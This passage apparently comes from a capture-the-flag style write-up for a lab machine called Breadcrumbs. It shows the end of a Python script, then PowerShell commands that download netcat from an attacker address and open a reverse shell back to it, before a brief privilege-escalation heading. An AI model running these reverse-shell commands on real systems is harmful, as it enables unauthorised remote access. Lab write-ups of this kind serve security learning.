 ```py
            print(f"[-] Try python {sys.argv[0]} -h")
    except KeyboardInterrupt:
        print('User has exited the program')
```

**Getting Reverse shell** by uploading netcat on the nbox.
```bash
powershell IWR -uri http://10.10.15.71/nc64.exe -OutFile C:\\windows\\temp\\nc64.exe
cmd /c c:\\windows\\temp\\nc64.exe 10.10.0.4 4141 -e powershell.exe
```

![](/assets/img/posts/breadcrumbs/rev-shell.png)

# Privesc

2 user on the box.

![](/assets/img/posts/breadcrumbs/users-in-box.png)
